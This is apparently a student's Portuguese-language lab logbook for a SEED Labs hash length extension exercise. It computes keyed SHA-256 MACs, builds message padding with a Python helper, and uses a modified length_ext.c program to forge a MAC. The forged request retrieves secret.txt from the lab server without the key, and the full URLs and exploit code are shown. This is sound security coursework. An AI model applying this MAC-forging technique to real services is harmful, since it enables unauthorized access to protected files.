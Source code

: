 # Trabalho realizado na Semana #10

## Tarefa 1

Nesta secção o objetivo desta tarefa será mandar um _request_ malicioso, verificando a resposta dada pelo servidor `www.seedlab-hashlen.com`. Para tal, temos de adicionar este ao ficheiro `/etc/hosts`, de modo a ser reconhecido pela VM.

Sendo assim, agora iremos construir o nosso request através da escolha do primeiro e último nome de um dos membros do grupo e a **chave** com o seu respectivo **UID** que será selecionada a partir do ficheiro `key.txt`.

Dados escolhidos: `Key:R = 123456:myname=PedroMarinho&uid=1001&lstcmd=1`

Agora apenas necessitamos de calcular o `MAC`, executando o seguinte comando:

![mac calculate](resources/LOGBOOK10/mac_calculate.png)

Como podemos observar obtemos o valor `65b5a2019144bdf3794b614229e3bf19e1a363f928277798c9577d4f5ed34062`

Deste modo, podemos agora fazer um _request_, visto que já temos toda a informação necessária.

Execução do request malicioso:
`http://www.seedlab-hashlen.com/?myname=PedroMarinho&uid=1001&lstcmd=1&mac=65b5a2019144bdf3794b614229e3bf19e1a363f928277798c9577d4f5ed34062`

Output do request: 

![request_simple_mac](resources/LOGBOOK10/request_simple_mac.png)

Neste caso, fomos bem sucedidos visto que tinhamos a informação correta, no entanto se tivessemos feito mal o calculo do **MAC** o resultado seria este:

![faulty_mac](resources/LOGBOOK10/faulty_mac.png)


Por fim, podemos ainda tentar fazer o _download_ do ficheiro secreto, `secret.txt`, e verificar se realmente o conseguimos obter.

**Novos Dados**: `Key:R = 123456:myname=PedroMarinho&uid=1001&lstcmd=1&download=secret.txt`

**Cálculo do novo mac**: 

Comando a executar `echo -n "123456:myname=PedroMarinho&uid=1001&lstcmd=1&download=secret.txt" | sha256sum`.

![mac_download](resources/LOGBOOK10/mac_download.png)

_Ouput_ do comando: `106016c4e71d231ecc15d8e358c3575ea9807ba9010e43504769f23a011eba48`

_Request_ a ser executado: `http://www.seedlab-hashlen.com/?myname=PedroMarinho&uid=1001&lstcmd=1&download=secret.txt&mac=106016c4e71d231ecc15d8e358c3575ea9807ba9010e43504769f23a011eba48`

Output do _request_:

![Download_Request](resources/LOGBOOK10/Download_Request.png)

Como podemos verificar, fomos bem sucedidos em buscar o ficheiro `secret.txt` e o seu conteúdo.

## Tarefa 2

Agora o nosso objetivo será criar um padding para a mensagem `123456:myname=PedroMarinho&uid=1001&lstcmd=1`.

A partir da explicação do guião, será necessário verficar o tamanho da nossa mensagem, sendo esta de 44 _bytes_, de modo a saber o padding, que será `64 - 44 = 20` bytes, e o número de total de bits `44 * 8 = 352 = 0x160`.

Com esta informação, podemos agora criar a **mensagem com o seu respetivo padding**:

```
"123456:myname=PedroMarinho&uid=1001&lstcmd=1"
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x01\x60"
```

Não esquecer que os `\x` têm de ser substituídos por `%` na execução do **URL**.

Tendo agora o padding temos de recalcular o `MAC`.

Por algum motivo, o comando `sha256sum` não estava a calcular o `MAC` corretamente, o que levou à criação de um script auxiliar.

```python
import hashlib

# Input string
input_string = "123456:myname=PedroMarinho&uid=1001&lstcmd=1\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x60"

# Compute the SHA-256 hash
sha256_hash = hashlib.sha256(input_string.encode('latin1')).hexdigest()

# Output the SHA-256 hash
print(f"SHA-256 Hash: {sha256_hash}")
```

![pyScript](resources/LOGBOOK10/pyScript.png)

**Novo mac**: `9d97178af26b3a8e611f43a7d89aff6db8bf1c012f3ebe3ded0974721178d86b`

Executamos o seguinte `URL`: 

`http://www.seedlab-hashlen.com/?myname=PedroMarinho&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%60&mac=9d97178af26b3a8e611f43a7d89aff6db8bf1c012f3ebe3ded0974721178d86b`


![task2Mac](resources/LOGBOOK10/task2Mac.png)

Como podemos verificar fomos bem sucedidos.

## Tarefa 3

Nesta tarefa, teremos de criar o ficheiro `length_ext.c` e adaptá-lo de forma a conseguirmos executar uma nova mensagem, que neste caso será obter o ficheiro `secret.txt`. Para tal, vamos buscar o `MAC` da **task 1** e inserir neste script.

Script alterado:

```c
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>
int main(int argc, const char *argv[])
{
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;

    SHA256_Init(&c);
    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);
        
    // MAC of the original message M (padded)
    c.h[0] = htole32(0x65b5a201);
    c.h[1] = htole32(0x9144bdf3);
    c.h[2] = htole32(0x794b6142);
    c.h[3] = htole32(0x29e3bf19);
    c.h[4] = htole32(0xe1a363f9);
    c.h[5] = htole32(0x28277798);
    c.h[6] = htole32(0xc9577d4f);
    c.h[7] = htole32(0x5ed34062);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);

    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");
    return 0;
}
```

De seguida, compilamos o programa e executámo-lo.

![task3Mac](resources/LOGBOOK10/task3Mac.png)

**Novo mac**:`898535c9f5d15194e62ed973381fdf0e698dffd601f04cd601f13875a14823e7`

**Url a ser executado**:
`http://www.seedlab-hashlen.com/?myname=PedroMarinho&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%60&download=secret.txt&mac=898535c9f5d15194e62ed973381fdf0e698dffd601f04cd601f13875a14823e7`

![paddingDownload](resources/LOGBOOK10/paddingDownload.png)

Verificamos assim, que realmente é possível revelar o conteúdo do ficheiro, mesmo sem a disponibilidade da chave.